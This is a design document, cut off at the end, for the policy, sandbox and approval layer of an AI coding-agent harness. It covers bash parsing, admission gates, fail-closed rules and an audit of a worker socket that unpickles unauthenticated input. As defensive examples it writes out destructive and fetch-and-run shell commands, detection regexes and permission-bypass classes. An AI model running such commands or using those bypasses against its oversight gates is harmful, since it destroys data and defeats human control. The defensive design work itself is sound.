

# Policy, permissions, and sandboxing

> **Design document, not a runtime API guarantee.** This corpus includes proposed
> interfaces and historical implementation observations. See
> [implementation status](implementation-status.md) for current owners and known gaps.

## Purpose

`omp.policy` is the namespace an extension uses to decide whether an operation may happen,
to describe the confinement an operation runs under, and to route the question to a human
when a rule cannot answer it alone. It owns four things and deliberately nothing else: the
**bash IR** that core hands to a policy so it reasons over a real parse instead of a regex,
the declarative **`omp.SandboxProfile`** that env-side Rust compiles into kernel primitives,
the **`omp.SandboxEnforcement`** receipt that says what that compilation actually achieved,
and the **approval vocabulary** — `omp.ApprovalSpec` and the Core-persisted durable approval
ticket — that parks a decision with Core until a person or an external service answers.

The pi failure it removes is that every policy extension had to build its own world model.
`@shinynito/pi-menshen` ships a 1,358,224-byte `tree-sitter-bash.wasm`, downloading it from a
GitHub release on first run, and re-derives `dynamicArgs`, redirect targets and read-only
classification from the CST. `@gotgenes/pi-permission-system` walks a second tree-sitter AST
in `bash-path-resolver.ts` to fold `cd` bases across lists, pipelines and subshells.
`cc-safety-net` runs a third analyzer with its own recursion-depth ceiling. `pi-sandbox`
scrapes confinement failures out of stderr with
`/(?:\/bin\/bash|bash|sh): (?:line \d: )?(\/[^\s:]+): Operation not permitted/`.
Four incompatible parsers, four evasion surfaces, four sets of bugs, and none of them can see
what the shell will actually execute — because in pi the shell was `/bin/bash` and the
extension was guessing.

omp owns the parser and the coreutils. `crates/shell` is a complete bash tokenizer,
PEG parser, expander and interpreter with 48 in-process builtins; when the agent runs
`grep -rn foo src | head`, no `/bin/bash` resolves and no `grep` binary is found on `$PATH`.
Because the thing that executes the script is the same thing that parsed it, a policy does not
approximate the command — it reads the parse. "Writes outside the workspace" and "pipes to a
network sink" are queries over `omp.BashIR`, not regexes over a string. And because Python is
memory-unsafe across C extensions and trivially shimmed, Python never enforces anything: a
profile is data, and Landlock, Seatbelt, bubblewrap and SOCKS egress filtering are applied by
Rust on the far side of the DATA socket.

## Concepts

### Two layers that must never be confused

| | Consultative admission | Mandatory enforcement |
|---|---|---|
| Who decides | hook phases, then a human | the kernel |
| Where it runs | extension host (Python) | environment daemon (Rust) |
| Input | `omp.ToolCallEvent`, `omp.BashIR` | compiled `omp.SandboxProfile` |
| Granularity | per invocation, per user command, per resource | per syscall |
| Bypassable by a buggy extension | yes | no |
| Failure mode | fail-closed synthetic `Deny` stub | `EPERM` |
| Output | `omp.HookDecision` — `Allow` / `Deny` / `Modify` / `Defer` / `RequireApproval` | `omp.Violation` |

Consultative admission answers *should this call happen at all*. Mandatory enforcement
answers *what can the process that runs it touch*. A policy extension that only does the
first is a suggestion; the second is what actually holds when the model runs
`python -c "$(curl …)"` and the parse says `has_dynamic_eval`.

### Trust boundaries, and one that is currently underdefended

A policy that reasons correctly about `rm -rf /` and gets its own transport wrong has
accomplished nothing. Four boundaries carry policy-relevant trust, and they are not equal:

| Boundary | Peer | What the peer may do if hostile |
|---|---|---|
| CONTROL, host ⇄ Agent Core | same-machine child, same trust domain | nothing new — the host already runs the extension code |
| DATA, host → Environment | separate process, possibly remote | issue `env/v1` requests within the extension's declared capability scope |
| Worker socket, host ⇄ worker | separate process, possibly a different machine | ship and run code — code shipping is the feature |
| Confined child, env → process | untrusted by construction | only what the compiled profile permits |

The worker socket is the one that needs saying out loud, because HMAC is necessary and not
sufficient. `crates/py/python/omp_remote.py` can authenticate with a mutual HMAC-SHA256
challenge-response (`:138-159`) and then exchanges pickle-5 frames whose header is
`pickle.loads`-ed (`:121`). Its own module docstring is already explicit that "deserializing and
executing shipped code IS arbitrary code execution — that is the feature. Only ever connect
mutually trusted peers" (`:38-43`). Three properties follow, and a policy author must treat all
three as given:

1. **A peer on a worker socket has arbitrary code execution on its counterpart.** That is
   inherent — shipping a function body *is* remote code execution — so a worker socket is a
   trust boundary in the strong sense, and `authkey` is the whole of the access control.
   Placement is not a sandbox; see `docs/py/04-placement.md`.
2. **Authentication is opt-in and defaults to off, and that is a defect.**
   `def serve(sock, authkey=None)` (`:357`) and `serve_forever(address, authkey=None)`
   (`:414`) are legal calls, and `:360` guards the handshake on `authkey is not None`. With the
   default, `_recv` — and therefore `pickle.loads` on an attacker-supplied header — is reachable
   by anyone who can connect, which on a TCP address is the network. The docstring's warning is
   correct and does not help: the dangerous configuration is the default value of a parameter on
   a function whose job is to bind a socket. Fix shape: refuse `authkey=None` on any
   non-`AF_UNIX` address.
3. **Framing is not bounded, and that is a second defect.** `_recv` reads
   `hlen, nbufs = struct.unpack("<II", …)` and immediately calls `_recv_exact(sock, hlen)`,
   which does `bytearray(n)` (`:107-108`, `:119-121`). `hlen` is a `u32`, so a peer can claim
   ~4 GiB and force the allocation; `nbufs` is likewise unbounded, up to 2³² loop iterations.
   The asymmetry is the tell: per-buffer `blen` **is** checked against `_MAX_FRAME` at
   `:125-126`, the header length is not. Fix shape: bound both before allocating — a header is
   kilobytes — and treat a violation as a connection-level protocol error, exactly as the
   oversized-frame branch already does.

One correction to how (3) has been described elsewhere: it is **not** reachable before the HMAC
handshake when a key is configured. `_authenticate` reads only `_recv_exact(sock, 32)` at a
fixed length (`:146`, `:151`), and `serve` completes authentication at `:361` before its first
`_recv` at `:366`; `Session.__init__` authenticates at `:296` before its first `_recv` at
`:311`. The exposures are precisely (2) — any peer, when `authkey` is unset — and a peer that
authenticated, which includes a compromised worker.

Revision 2 turns the fix shapes above from observations into requirements, owned by
`docs/py/04-placement.md`: authentication is mandatory (`authkey=None` is refused on any
non-`AF_UNIX` address), an encrypted or already-authenticated tunnel is mandatory off-UDS,
`hlen` and `nbufs` are bounded before allocation, old-generation frames are rejected after a
reload or reconnect, and named persistent workers receive a fresh per-call scoped Environment
handle rather than retaining a broad ambient capability.

None of the three is something a `SandboxProfile` can fix, which is why placement decisions
belong to configuration and install-time consent (`docs/py/14-deploy.md`) rather than to a
rulebook.

### Where the gate sits

`PLAN.md` §D6 (locked decision **D6**, amended 2026-08-19) forbids a gate chain in
the agent loop: "A tool batch runs concurrently exactly as the model issued it: no batch-level
admission scheduler, no parallelism detection, no reordering. Each invocation gates
independently: the environment asks a per-invocation admission query, and Core answers it by
running the hook phase procedure." D6 forbids **batch-level admission scheduling in the
mailbox loop** — nothing reorders, coalesces or serializes a tool batch — and explicitly
permits the per-invocation decision procedure. Under that text the division of labour is: the
**environment owns the gate**
(the admission query between `InvokeTool` and effect authorization is the wire mechanism, and
nothing executes until the environment hears an answer), and **Agent Core runs the decision
procedure** that produces the answer — phase dispatch, transform composition, ticket
ownership, per `docs/py/05-hooks.md`. Revision 2 could only state this as a scope reading and
flagged a D6 wording amendment as recommended; the amendment was ratified 2026-08-19, so the
reading is now the decision's own text, and the flag is kept in this sentence as the
historical record.

Revision 1 called Agent Core "a pure courier" here, and the review was right to refuse the
phrase: `docs/py/05-hooks.md` requires Core to sort subscriptions, dispatch phases in order,
await every handler in a phase, compose accepted transforms, and stop on a denial. That is a
decision procedure, and calling the thing that runs it a courier obscured where correctness
lives. The claim is retracted: Core decides admission; the environment enforces it. What D6
actually protects — and what this design keeps verbatim — is that **each invocation gates
independently; one slow approval never serializes the batch**.



Three properties fall out of that placement:

- **The loop never blocks.** Each invocation carries its own admission future, run as a
  detached task off the interrupt mailbox. A batch of five calls where one is waiting on a
  human still runs the other four — and with durable approval tickets (below) the waiting one
  does not even occupy a Python coroutine while it waits.
- **A denial is structured, not a string.** A policy denial settles the invocation as
  `CallOutcome.Aborted(kind=AbortKind.POLICY_DENIED, policy=PolicyDenied(...))` — reason,
  machine-readable code, decision id and the rules that fired, defined in
  `docs/py/02-verdicts.md` — and the model-facing text is `prompt()`'s projection of it. On
  the Rust side the arm is `omp_tool::Verdict::Aborted` (`crates/tool/src/lib.rs:251`); the
  rev that decided it rides the existing `TOOL_REV_PROP` (`omp/tool-rev`,
  `crates/tool/src/lib.rs:46`), so a policy audit record needs no parallel stamp. On the wire
  the vocabulary is equally present: `ExecOutcome::EXEC_OUTCOME_DENIED = 5` and
  `PROTOCOL_ERROR_CODE_PERMISSION_DENIED = 3`
  (`crates/proto/proto/omp/env/v1/env.proto:211`, `:416`). Revision 1 mapped a denial onto
  `Abort::Skipped { reason }` and closed with "`omp.Deny(code=…)` has nowhere to land yet".
  Both claims are retracted: skipped ("deliberately not started" because a sibling failed or
  the batch was abandoned) and denied ("refused by policy") are different facts, and the
  structured landing place now exists — `PolicyDenied` is carried on the `Aborted` arm, so
  telemetry reads structure and never parses prose.
- **Admission precedes authorization.** Admission runs in `InvocationPhase.ADMISSION`, before
  `ADMITTED` freezes the effective target and args, and long before `EFFECTS_AUTHORIZED`
  issues the unforgeable effect token (`docs/py/03-params.md` owns the machine). Nothing
  before `EFFECTS_AUTHORIZED` may perform effects
  (`crates/proto/proto/omp/env/v1/env.proto:56-57`, `PROTOCOL_ERROR_CODE_UNCOMMITTED = 10`;
  the wire message name `ArgsCommitted` predates the reserved vocabulary and corresponds to
  the `EFFECTS_AUTHORIZED` transition), so a denied call cannot have mutated the world.

### No DATA before admission

"Cannot have mutated the world" used to be where this section stopped: Revision 1 treated a
dry-run preview computed during speculation as "disposable by construction". That was the
wrong invariant, and the review named the gap — **"world untouched" is not confidentiality.**
A speculative body that pulled an early `path` and read `secret.txt` has leaked the secret
into an untrusted extension's process even if policy later rewrites the path to `safe.txt`
and no byte of the world changed; its Python locals and leases cannot be retroactively
rewritten to match the mutated call. The claim is retracted, and the rule is now:

- **Extension code must not touch DATA before `ADMITTED`.** In v1 the bound is stricter
  still, because third-party device bodies do not start until `EFFECTS_AUTHORIZED`
  (`docs/py/01-devices.md`) — there is no speculative third-party execution at all. Both
  bounds are stated because they are different guarantees: the first is the permanent
  confidentiality floor, the second is v1's scheduling fact.
- **Policy transformation completes before extension execution begins.** A device body only
  ever sees final, effective, policy-approved arguments; there is no window in which an
  extension holds a resource that a later transform renames out from under it.
- **Speculative preparation is future work, behind a prepare token.** If latency ever
  justifies pre-admission work, it will be a separate prepare token issued only after
  read/confidentiality policy has approved the requested resources, with one invariant fixed
  now: the later effect token may authorize a **subset** of the prepared plan but may never
  change the **identity** of resources already read. A prepared plan can shrink; what was
  read cannot be unread.

### Five gates, one vocabulary

| Gate | Event | Subject | Latency class | Failure policy |
|---|---|---|---|---|
| Invocation admission | `tool_call` | `omp.ToolCallEvent` (+ `.bash`) | per call | fail-closed |
| User-issued command | `user_bash` | `omp.ToolCallEvent` (+ `.bash`) | per invocation | fail-closed |
| Resource discovery | `resources_discover` | resource list | per session | fail-closed |
| Sandbox composition | `sandbox_profile` | session open | per session | fail-closed (`OFF` refused) |
| Violation remediation | `sandbox_violation` | `omp.Violation` | per violation | fail-open (report only) |

Decision types, hook phases (`omp.HookPhase = PRECHECK | TRANSFORM | REVIEW | APPROVAL |
OBSERVE`), phase ordering, aggregation, reentrancy and the full failure matrix are defined
once in `docs/py/05-hooks.md`. This document does not restate them; it defines what those
hooks *see*, what a policy may *install*, and — because policy is where failure semantics
are security-relevant — what fail-closed means after a failure.

### What fail-closed means after a failure

Fail-closed is a property of the *subscription*, not of the moment. The lifecycle is:

```text
registered + healthy     → consult the implementation
registered + unavailable → synthetic Deny (fail-closed stub, built from the manifest declaration)
explicitly disabled      → removed
```

A crashed policy host, a quarantined extension, and a lost remote workspace host all land in
the middle row: Core builds a synthetic `Deny` stub from the manifest's declaration
(`docs/py/14-deploy.md` — the manifest already knows the subscription and its failure class)
and every call the subscription would have gated is denied until the implementation is
healthy again. Only an explicit user or org disable removes a policy. "This policy is buggy"
and "its protected operations are now allowed" are never the same transition.

Revision 1 deferred failure semantics entirely to `docs/py/05-hooks.md`, whose Revision 1
failure table denied in-flight calls when a fail-closed host crashed and then *cleared the
subscription* — the session continued with the policy silently gone, and a lost remote
workspace host treated workspace hooks as absent for the rest of the turn. The review was
right that this is fail-open after the first failure: safe for optimizers and observers,
indefensible for a security policy. Both documents now state the stub rule; the failure
table itself remains `docs/py/05-hooks.md`'s, and `docs/py/14-deploy.md` aligns its
remote-loss section.

One capacity rule follows the same logic: the 64-handler cap truncates `OBSERVE`
subscriptions only. Exceeding capacity for a mandatory gate phase is an **activation-time
error** — the extension fails to activate and says so — never a runtime truncation that
silently stops consulting a gate.

### Parse, not regex

`crates/shell/src/parser/ast.rs` is the real thing: `Pipeline` with `bang` and `timed`
(`:275-290`), `AndOrList` with `first` and `additional` (`:94-103`), ten `CompoundCommand`
variants (`:385-412`), `SimpleCommand` as `prefix`/`word_or_name`/`suffix` (`:1006-1019`),
`CommandPrefixOrSuffixItem` carrying words, assignments, redirects and process substitutions
(`:1155-1167`), seven `IoFileRedirectKind`s (`:1386-1404`), four `IoFileRedirectTarget`s
(`:1420-1435`). Below the word level, `crates/shell/src/parser/word.rs:31-57` gives
eleven `WordPiece` variants, which is exactly the information `pi-menshen` reconstructs by
hand: `Text` and `SingleQuotedText` are static, `ParameterExpansion`, `CommandSubstitution`,
`BackquotedCommandSubstitution`, `ArithmeticExpression` and `TildeExpansion` are not.

`omp.BashIR` is a stable, flattened, allocation-cheap projection of that tree plus three things
the parser alone does not give you: **resolved cwd per command** (the `cd` fold that
`bash-path-resolver.ts` implements by hand), **inferred reads and writes** with lexical and
canonical paths, and **dynamism flags** derived from `WordPiece` rather than from a regex over
`$`.

The payoff over the pi shape is not subtle. `@robhowley/pi-yolo-seatbelt` blocks `.git` with
`/(?:^|[\s"'=/])\.git(?=$|[\s"'`;|&()<>/=])/` — a regex that fires on the harmless
`echo "see .git/config docs"` and misses `rm -rf "$D"/.git` because `$D` is not a literal.
Over the IR both cases are decided correctly: the first has no write access to any path, the
second has `Access.WRITE | Access.DELETE` on a `PathRef` whose `dynamic` flag is set and whose
`lexical` value ends in `/.git`.

## Reference

### The admission subject

A policy hook receives `omp.ToolCallEvent`, whose fields are listed once in
`docs/py/05-hooks.md`. Three facts about it are load-bearing for policy and are restated here
because getting them wrong is a privilege-escalation bug, not a style problem.

**One event, one gate, one tagged target.** `tool_call` fires exactly once per logical
dispatch, whether the dispatch is a core tool, a device invoked through the
`dyn` shell builtin, or an MCP endpoint.
`event.target` is `omp.CallTarget` — `omp.CoreTool | omp.DeviceCall | omp.McpCall`, defined in
`docs/py/05-hooks.md` — and `event.kind` is the `omp.TargetKind` tag for cheap dispatch.
An `dyn shell_exec …` invocation (`docs/py/01-devices.md`) does **not** fire a gate on
`CoreTool("shell")` followed by a device gate; it fires one `tool_call` with
`kind is TargetKind.DEVICE` and the RESOLVED `target=DeviceCall(...)`. The builtin is transport,
never the policy subject for a device dispatch — a guard on the resolved device cannot be
bypassed by CLI spelling — while catalog and docs reads (`dyn`, `dyn --q <text>`,
`dyn <path> --help`) fire `tool_call` with `target=CoreTool("shell")`. A policy that gated the
transport believing it had covered devices would be gating the invocation mechanism, not the
capability. The one-gate rule binds the resolved target regardless of transport.

**Args at the gate are always decoded.** `event.args` mirrors `event.target.args` and is the
mapping `omp.Modify(args=…)` / `omp.Modify(patch=…)` writes. A policy never receives `dyn` argv
or a raw `--json` payload it has to re-parse, and never has to know which transport a device call
arrived through.

**An unrecognized target kind is a `Defer`, never an `Allow`.** `omp.TargetKind` may gain
members. A rule that falls off the end of its `match` and returns `omp.Allow` is asserting
safety for a dispatch shape it has never seen:

```python
@omp.hook("tool_call", phase=omp.HookPhase.PRECHECK)   # PRECHECK: Deny or Defer only
def gate(event: omp.ToolCallEvent, ctx: omp.Context) -> omp.HookDecision:
    match event.target:
        case omp.CoreTool(name="shell"):
            return shell_rules(event.bash, ctx)
        case omp.CoreTool(name="write" | "edit", args={"path": str() as path}):
            return path_rules(path, ctx)
        case omp.DeviceCall(name=name, args=args):
            return device_rules(name, args, ctx)
        case omp.McpCall(server=server, tool=tool):
            return mcp_rules(server, tool, ctx)
        case _:
            return omp.Defer()          # unknown shape: abstain, let a later phase decide
```

Two fields on the event belong to this namespace:

- `event.bash: omp.BashIR | None` — present exactly when the invocation's resolved executor is
  the shell engine, which is the `shell` core tool and every `user_bash` invocation. `None` for
  every other target, including a device that happens to run a command internally: that device
  gets its own admission when *it* opens an exec session. Never a partially-filled object — if
  the parse failed, the IR is present with `parse_ok=False`.
- `event.cwd: EnvPath` — the session cwd the script starts in (a typed environment path, see
  `docs/py/11-env.md`), and the base against which `BashCommandIR.cwd` is folded.

`omp.Modify` may rewrite `event.args` — and every derived fact, `event.bash` included, is
automatically invalidated and regenerated before the next phase sees the call. See
"Transforms, derived facts, and the audit trail" below; the Revision 1 rule that made
recomputation the author's job is retracted there.

`omp.Deny(fatal=True)` is refused on `tool_call` (`omp.HookContractError`): admission is
per-invocation, so a per-call gate cannot abort a whole submission.
Session-wide lockdown belongs on `session_start` or `turn_start` — see
`docs/py/05-hooks.md`.

### Transforms, derived facts, and the audit trail

Any accepted `TRANSFORM` mutation of the **target**, the **command or script**, the **cwd**,
the **environment**, or any **path-bearing argument** automatically invalidates and
regenerates every derived fact — `BashIR`, resolved `PathRef`s, `NetRef`s, dynamism flags,
the folded cwd — before the next hook phase sees the call. Regeneration is the same env-side
analyzer run that produced the original facts, and each regeneration increments a
`derived_ir_revision` counter, so an audit record can say exactly which parse a decision was
made against. No policy phase can ever inspect an IR for a command that will no longer
execute.

Revision 1 stated the opposite: "the IR is **not** recomputed automatically, because a policy
that rewrites `command` is asserting it knows what it wrote. Call `omp.policy.parse()` on the
rewritten script if a downstream link must see a matching IR." The review called that too
dangerous, and it is: it let one transform silently desynchronize what downstream *security*
policy inspects from what the environment will execute, and it made the safety of every later
phase contingent on an earlier extension remembering an optional call. The expectation is
deleted; `omp.policy.parse()` remains for what it was always good for — analyzing nested
interpreter payloads — and is never needed to resynchronize after a `Modify`.

The durable audit record for an admitted call carries the whole trail:

```text
requested_target        # fixed at ARGS_FINALIZED
requested_args          # canonical requested args, same phase
transformations[]       # every accepted TRANSFORM, in order, with its author
effective_target        # frozen at ADMITTED
effective_args          # frozen at ADMITTED
derived_ir_revision     # which regeneration the admitting decision saw
```

**Target redirection is narrower still.** A transform that changes *which* target runs — not
just its arguments — is a privilege-relevant act, and four rules bound it:

1. It requires an explicit manifest capability; an extension that has not declared it cannot
   redirect anything.
2. It can never raise the effective approval tier: redirecting a `Tier.READ` call at a
   `Tier.EXEC` target is refused at composition time.
3. It can never introduce capabilities absent from the original call's declared effect
   envelope (`omp.Effects`, `docs/py/01-devices.md`): a redirect target whose envelope
   exceeds the original's is refused.
4. It is always visible in the eventual user approval: the dialog renders requested target
   *and* effective target whenever they differ, so a user never approves a call whose
   destination was quietly swapped.

### Approval tiers

`omp.Tier` is the default approval tier a device's calls carry. `@omp.device(tier=…)` is
declared in `docs/py/01-devices.md`; the vocabulary and its resolution are defined here,
because a tier is a policy default and nothing else.

```python
class Tier(enum.StrEnum):
    READ = "read"               # observes state, no effects
    WRITE = "write"             # mutates workspace state
    EXEC = "exec"               # runs code, spawns processes, or reaches the network
    PRIVILEGED = "privileged"   # touches credentials, policy, or the host outside the workspace
```

Resolution, in order: an explicit `omp.Allow`/`omp.Deny` from any hook phase wins outright; a
configuration entry for the tier pre-answers the request and surfaces as
`ApprovalDecision(source=ApprovalSource.CONFIG)`; otherwise the tier selects the
`ApprovalSpec.kind` a missing decision would raise. A tier is a **default, never an
enforcement**: it cannot widen a rulebook, it cannot suppress a `Deny`, and a device that
declares `Tier.READ` while writing files is denied by the sandbox exactly as if it had
declared nothing. `omp.tier_of(target)` returns the effective tier for a `CallTarget`,
defaulting to `Tier.EXEC` for a device that declared none — the conservative direction.

### Effect envelopes and capability tokens

A tier is one word; an envelope is the sentence. Every device declares a maximum
`omp.Effects` envelope — document reads and write globs, permitted commands and network use,
inference request and spend ceilings, subagent count — at declaration time
(`docs/py/01-devices.md` owns the type). Policy's half of the contract is enforcement:

1. **Hooks narrow, never widen.** A `TRANSFORM` hook may shrink the envelope for one
   invocation — drop the network, tighten the write globs, zero the subagent budget. A
   contribution that would widen it is refused exactly like a widening `SandboxProfile`.
2. **Core issues a scoped capability token at `EFFECTS_AUTHORIZED`.** The token binds the
   narrowed envelope plus the approval receipt to the invocation.
3. **The Environment enforces the token without re-prompting.** Every DATA call the device
   makes is checked against the token, not against a fresh question to the user.

The user-visible consequence is **one approval per logical action**: the dialog shows the
envelope, the human answers once, and everything inside the envelope proceeds. Escalation
beyond the envelope — a "read" device opening a network socket — **fails** with a `Fault`
rather than raising a second surprise dialog. The policy-visible consequence is a static
subject: a hook reasons over the declared envelope instead of inferring what a black-box
device might eventually do from its name and arbitrary JSON args.

### Bash IR

#### `omp.BashIR`

```python
@dataclass(frozen=True, slots=True)
class BashIR:
    source: str                       # exact script text as submitted
    rev: str                          # IR schema revision, e.g. "bashir@3"
    parser_rev: str                   # shell-engine parser revision that produced it
    parse_ok: bool
    parse_error: ParseError | None
    truncated: bool                   # source exceeded BASH_IR_MAX_SOURCE
    node_count: int
    is_compound: bool                 # more than one AndOrList, or any CompoundCommand
    has_dynamic_eval: bool
    lists: tuple[BashAndOrList, ...]
    commands: tuple[BashCommandIR, ...]      # flattened, execution order, includes nested
    functions: tuple[BashFunctionDef, ...]
    reads: tuple[PathRef, ...]
    writes: tuple[PathRef, ...]
    net: tuple[NetRef, ...]
    opaque: tuple[OpaqueEvaluator, ...]
```

`lists` is the structural view; `commands` is the same commands flattened in execution order
with `BashCommandIR.depth` and `.container` recording where each came from. Most rules want the
flat view; `writes outside the workspace` is a `writes` scan; `pipes to a network sink` needs
`lists` to know what feeds what.

`reads`, `writes` and `net` are **aggregated and deduplicated** across every command including
compound bodies, function bodies, subshells and here-documents. A policy that only iterates
`commands` and inspects `argv` will miss `> out.txt`; a policy that scans `writes` will not.

`has_dynamic_eval` is `True` when the script contains any construct whose executed text is not
determined by the parse: `eval`, `source`/`.`, `exec` with a dynamic operand, `bash -c`/`sh -c`
with a non-literal argument, `xargs`/`parallel` fed from a pipe, a command substitution in a
command *name* position, or a `WordPiece::CommandSubstitution` inside an argument that a
declared opaque evaluator consumes. It is the flag that must force review rather than silently
passing an allowlist: `eval "$CMD"` has no argv worth matching.

Channel: the IR travels on CONTROL, attached to the `tool_call` event, as one protobuf
sub-message. Latency class: per call, computed once by the parser the shell engine will use
anyway. Fail policy: a parse failure never fails the event — it arrives with `parse_ok=False`
so the policy decides, matching `pi-menshen`'s degrade-to-review behaviour rather than
`cc-safety-net`'s hard `i0` denial.

Methods:

```python
def walk(self) -> Iterator[BashNode]: ...
def simple_commands(self) -> Iterator[BashCommandIR]: ...
def segment(self, index: int) -> str: ...
def is_read_only(self) -> bool: ...
def writes_outside(self, roots: WorkspaceUri | Iterable[WorkspaceUri]) -> tuple[PathRef, ...]: ...
def reads_outside(self, roots: WorkspaceUri | Iterable[WorkspaceUri]) -> tuple[PathRef, ...]: ...
def net_sinks(self) -> tuple[NetRef, ...]: ...
def touches(self, *patterns: str) -> tuple[PathRef, ...]: ...
```

- `walk()` yields every node depth-first in source order, including compound bodies. Use when a
  rule genuinely cares about structure.
- `simple_commands()` is `iter(self.commands)`, kept as a method so the intent reads.
- `segment(index)` returns the exact source slice of `commands[index]`, from its span. This is
  the string a deny message should quote — `cc-safety-net`'s `Segment:` field, and pi's
  "segment-level deny/prompt vs full-command allow" (`.plan/feature-map/tools-exec.md:34`),
  without re-splitting on `;`/`&&`/`||`/`|`/`&`. The parser already knows where the boundaries
  are, so the `-c` / `--eval` bypass that pi's `hasBashApprovalShellControl` scans for cannot
  exist: `sh -c "rm -rf /"` is a `BashCommandIR` with `interpreter_code` set, not an opaque
  argv element.
- `is_read_only()` is `not self.writes and not self.net and not self.has_dynamic_eval and
  all(c.read_only for c in self.commands)`. It replaces `pi-menshen`'s
  `INHERENT_READ_ONLY` table of ~80 names *plus* its per-command flag validators, because the
  table and the validators are core data: `find -delete` sets `Access.DELETE` on a `PathRef`,
  `fd --exec` sets `has_dynamic_eval`, `sort -o` sets `Access.WRITE`, `rg --pre` sets
  `has_dynamic_eval`. An extension that wants its own table can still build one; it does not
  have to.
- `writes_outside(roots)` / `reads_outside(roots)` filter on `PathRef.resolved` (realpath-
  resolved env-side), so a symlink out of the workspace is caught. `roots` is
  `omp.Context.roots: tuple[WorkspaceUri, ...]` (`docs/py/14-deploy.md` owns the type) — omp
  workspaces are multi-root (`workspace.additionalDirectories`, `/dir add`), so a single root
  is not a containment boundary; a path is outside only when it is outside *every* root. A
  single `WorkspaceUri` is accepted for the one-root case. A `PathRef` whose
  `resolved` is `None` because it is `dynamic` is **always** included: unknown is outside.
- `touches(*patterns)` matches `PathRef.lexical` and `.resolved` against gitignore-style
  globs.

#### `omp.ParseError`

```python
@dataclass(frozen=True, slots=True)
class ParseError:
    kind: ParseFailure
    message: str
    span: Span | None
```

`omp.ParseFailure` is a `StrEnum`:

| Member | Meaning |
|---|---|
| `SYNTAX` | the tokenizer or PEG parser rejected the script |
| `UNTERMINATED` | an unclosed quote, here-document or substitution |
| `NODE_LIMIT` | the parse exceeded `BASH_IR_MAX_NODES` |
| `SOURCE_LIMIT` | the script exceeded `BASH_IR_MAX_SOURCE` |
| `DEPTH_LIMIT` | nesting exceeded the analyzer's recursion bound |
| `TIMEOUT` | the parse exceeded the analyzer's wall-clock bound |

These are the same four circuit breakers `pi-menshen` implements as
`MAX_COMMAND_LENGTH = 10_000`, `MAX_NODES = 50_000`, `PARSE_TIMEOUT_MS = 50` and a depth
guard, and that `cc-safety-net` implements a second time behind its `C0` and `$B` strings —
here they are one core mechanism with one enum.

#### `omp.BashAndOrList`, `omp.BashPipeline`, `omp.BashNode`

```python
@dataclass(frozen=True, slots=True)
class BashAndOrList:
    pipelines: tuple[BashPipeline, ...]
    operators: tuple[AndOrOp, ...]        # len == len(pipelines) - 1
    separator: Separator                  # how this list terminated
    span: Span

@dataclass(frozen=True, slots=True)
class BashPipeline:
    commands: tuple[BashNode, ...]
    negated: bool                         # leading `!`
    timed: bool                           # leading `time`
    span: Span

type BashNode = BashCommandIR | BashCompound | BashFunctionDef | BashTestExpr
```

`omp.AndOrOp` is a `StrEnum` with `AND` (`&&`) and `OR` (`||`), mirroring `ast::AndOr`
(`crates/shell/src/parser/ast.rs:204-215`). `omp.Separator` is a `StrEnum` with
`SEQUENCE` (`;` or newline) and `ASYNC` (`&`), mirroring `ast::SeparatorOperator` (`:76-83`).
`ASYNC` matters: a policy that permits a long command should know it was backgrounded.

`operators[i]` is the operator joining `pipelines[i]` to `pipelines[i + 1]`. The invariant
holds even for a single-pipeline list, where `operators` is empty.

#### `omp.BashCommandIR`

```python
@dataclass(frozen=True, slots=True)
class BashCommandIR:
    index: int                            # position in BashIR.commands
    name: str | None                      # command word, None for assignment-only commands
    argv: tuple[BashArg, ...]             # argv[0] is the command word when present
    dynamic_args: tuple[bool, ...]        # parallel to argv; argv[i].dynamic
    env: tuple[BashAssignment, ...]       # command-prefix assignments (NAME=val cmd)
    redirects: tuple[BashRedirect, ...]
    process_subs: tuple[ProcessSubIR, ...]
    reads: tuple[PathRef, ...]
    writes: tuple[PathRef, ...]
    net: tuple[NetRef, ...]
    cwd: str | None                       # folded cwd, None when a `cd` was undecidable
    depth: int                            # 0 at program level
    container: CompoundKind | None        # innermost enclosing compound, if any
    subshell: bool                        # executes in a subshell (pipe stage, `(...)`, sub)
    builtin: bool                         # resolves to a shell-engine builtin
    coreutil: bool                        # resolves to an in-process coreutil
    external: bool                        # would resolve a binary on $PATH
    read_only: bool                       # core classification for this argv
    interpreter_code: str | None          # payload of `-c`/`-e`/`--eval`, when literal
    span: Span
```

Field notes that carry weight:

- `dynamic_args` is retained as a flat tuple even though `argv[i].dynamic` says the same thing,
  because it is the shape every ported rule already expects (`pi-menshen`'s
  `dynamicArgs: boolean[]`) and because a bitmask comparison is cheaper than a generator.
- `env` covers `CommandPrefixOrSuffixItem::AssignmentWord`
  (`crates/shell/src/parser/ast.rs:1164`). This is the field that closes pi's
  `git -c alias.x='!…'` bypass class: the assignment is structured, not a mystery argv element.
- `cwd` is the fold `@gotgenes/pi-permission-system` calls `EffectiveBase`. `cd /abs` sets it
  absolutely; `cd rel` joins onto the previous value; `cd "$DIR"`, `cd $(…)`, `cd -` and `cd ~`
  set it to `None`. A `cd` inside a subshell or a downstream pipe stage folds *within* that
  stage and does not escape it, matching real shell semantics. `cwd is None` means every
  relative `PathRef` on this command is `dynamic`.
- `builtin` / `coreutil` / `external` are mutually exclusive and exhaustive for a resolvable
  `name`. `external` is the interesting one: it is the only case where a binary outside omp's
  control runs, and it is therefore the case a `SandboxProfile` must cover. `builtin` and
  `coreutil` execute inside the environment daemon — see the enforcement note under
  `omp.SandboxProfile`.
- `read_only` is core's per-argv classification including flag analysis, not a name lookup.
- `interpreter_code` is populated when a command takes an inline program (`python -c`,
  `node -e`, `perl -e`, `awk`, `jq`, `sh -c`) *and* the operand is a literal. When the operand
